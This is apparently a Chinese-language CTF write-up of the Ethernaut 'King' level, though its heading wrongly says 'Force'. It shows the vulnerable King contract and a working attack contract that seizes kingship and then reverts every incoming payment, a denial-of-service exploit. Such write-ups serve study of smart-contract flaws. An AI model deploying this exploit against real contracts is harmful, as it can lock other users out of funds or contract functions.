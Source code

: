 # 07 - Force

## 题目
下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.
```solidity


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
address king;
uint256 public prize;
address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}

```

## 解题
首先需要给关卡合约发送高于0.001的eth，并且以 receive 函数中的无理由 revert 来拒绝所有 transfer，攻击合约如下
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttack {
    constructor(address payable _kingContractAddress) payable {
        // 发送比当前 prize 更多的以太币来成为新的国王
        (bool success, ) = _kingContractAddress.call{value: msg.value}("");
        require(success, "Failed to become king");
    }

    // 拒绝接收任何以太币
    receive() external payable {
        revert("Cannot accept ETH");
    }
}

```

